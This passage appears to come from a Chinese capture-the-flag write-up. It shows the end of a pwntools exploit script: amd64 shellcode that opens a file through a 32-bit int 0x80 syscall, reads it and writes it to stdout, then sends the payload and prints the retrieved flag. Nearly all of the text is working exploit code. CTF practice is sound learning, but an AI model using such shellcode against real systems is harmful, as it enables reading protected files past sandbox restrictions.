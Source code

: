 ```
mov    QWORD PTR [rax],rdx

mov    rbx,rax
xor    rcx,rcx
mov    rax,0x5
int    0x80

xor    rdi,rdi
xchg   rdi,rax
mov    rsi,r12 
mov    rdx,0x100
xor    rax,rax
syscall

mov    rsi,r12
mov    rdx,0x10
mov    rdi,0x1
mov    rax,0x1
syscall

mov    rax,0x3c
syscall
''', arch='amd64')

ru("> ")
sd(shellcode)

ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
ru("\n")
flag = rv(16)
lg("{}".format(flag))
```

输出结果：
![](second.png)
